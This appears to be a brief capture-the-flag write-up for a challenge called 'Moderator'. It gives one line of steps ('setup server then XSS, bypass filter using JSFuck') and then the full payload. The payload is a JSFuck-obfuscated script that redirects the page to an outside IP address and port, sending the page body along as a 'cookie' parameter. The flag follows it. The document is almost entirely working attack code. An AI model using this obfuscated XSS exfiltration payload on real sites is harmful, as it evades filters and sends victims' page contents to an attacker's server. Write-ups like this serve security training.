 ## Moderator 網站版主

setup server then XSS, bypass filter using JSFuck
<script>
  document[(![]+[])[!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]]="http://110.235.31.127:25613/?cookie="+encodeURIComponent(document.body.innerHTML)
</script>

PUCTF24{y0u_kn0w_X55_n0w!_2fdbea18c7a95f341e970f8a4f33dc46}